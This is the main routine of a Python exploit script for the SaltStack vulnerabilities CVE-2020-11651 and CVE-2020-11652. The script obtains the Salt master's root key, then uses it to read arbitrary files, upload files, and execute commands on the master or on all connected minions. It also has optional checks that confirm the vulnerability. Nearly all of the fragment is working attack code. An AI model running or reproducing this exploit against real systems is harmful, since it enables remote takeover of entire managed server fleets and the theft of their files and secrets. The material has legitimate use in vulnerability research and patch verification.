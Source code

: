 ```python
    if (args.upload_src and args.upload_dest is None) or (args.upload_dest and args.upload_src is None):
        print('[-] Must provide both --upload-src and --upload-dest')
        sys.exit(1)

    channel = init_minion(args.master_ip, args.master_port)

    check_connection(args.master_ip, args.master_port, channel)
    
    root_key = check_CVE_2020_11651(channel)
    if root_key:
        print('[*] root key obtained: {}'.format(root_key))
    else:
        print('[-] Failed to find root key...aborting')
        sys.exit(127)

    if args.run_checks:
        # Assuming this check runs on the master itself, create a file with "secret" content
        # and abuse CVE-2020-11652 to read it.
        top_secret_file_path = '/tmp/salt_cve_teta'
        with salt.utils.fopen(top_secret_file_path, 'w') as fd:
            fd.write("top secret")

        # Again, this assumes we're running this check on the master itself
        with salt.utils.fopen('/var/cache/salt/master/.root_key') as keyfd:
            root_key = keyfd.read()

        check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path)
        check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key)
        check_CVE_2020_11652_write1(debug, channel, root_key)
        check_CVE_2020_11652_write2(debug, channel, root_key)
        os.remove(top_secret_file_path)
        sys.exit(0)

    if args.read_file:
        pwn_read_file(channel, root_key, args.read_file, args.master_ip)

    if args.upload_src:
        if os.path.isabs(args.upload_dest):
            print('[-] Destination path must be relative; aborting')
            sys.exit(1)
        pwn_upload_file(channel, root_key, args.upload_src, args.upload_dest, args.master_ip)


    jid = '{0:%Y%m%d%H%M%S%f}'.format(datetime.datetime.utcnow())

    if args.exec:
        pwn_exec(channel, root_key, args.exec, args.master_ip, jid)

    if args.exec_all:
        print("[!] Lester, is this what you want? Hit ^C to abort.")
        time.sleep(2)
        pwn_exec_all(channel, root_key, args.exec_all, args.master_ip, jid)


if __name__ == '__main__':
    main()
```
